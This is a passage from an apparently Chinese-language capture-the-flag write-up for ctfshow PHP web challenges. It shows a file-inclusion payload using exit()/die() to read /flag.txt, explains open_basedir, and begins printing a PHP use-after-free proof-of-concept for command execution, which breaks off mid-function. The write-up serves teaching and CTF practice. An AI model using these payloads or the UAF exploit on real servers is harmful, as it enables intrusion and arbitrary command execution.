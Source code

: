 输出：

```
string(6) "Hello "
string(11) "Hello World"
```

这里将输出缓存区的内容给清除了，我们可以在想执行代码的后面加上`exit()`和`die()`，退出代码，不执行后面的代码

payload：

```php
include('/flag.txt');exit();
include('/flag.txt');die();
```

### web72

一样的源码

open_basedir 是php.ini 中的 一个配置选项。可以用作与 将用户访问文件的活动范围限制在指定的区域

例如：open_basedir=/var/www/html:/tmp/，就不能获取这两个目录以外的文件

[浅谈绕过open_basedir 的几种用法](https://blog.csdn.net/snowlyzz/article/details/126310439?fromshare=blogdetail)

![image-20231109151255796](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231109151255796.png)

用uaf脚本命令执行poc,要url编码

```php
<?php
function ctfshow($cmd) {
    global $abc, $helper, $backtrace;

    class Vuln {
        public $a;
        public function __destruct() { 
            global $backtrace; 
            unset($this->a);
            $backtrace = (new Exception)->getTrace();
            if(!isset($backtrace[1]['args'])) {
                $backtrace = debug_backtrace();
            }
        }
    }
    class Helper {
        public $a, $b, $c, $d;
    }
    function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }
    function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= sprintf("%c",($ptr & 0xff));
            $ptr >>= 8;
        }
        return $out;
    }
    function write(&$str, $p, $v, $n = 8) {
        $i = 0;
        for($i = 0; $i < $n; $i++) {
```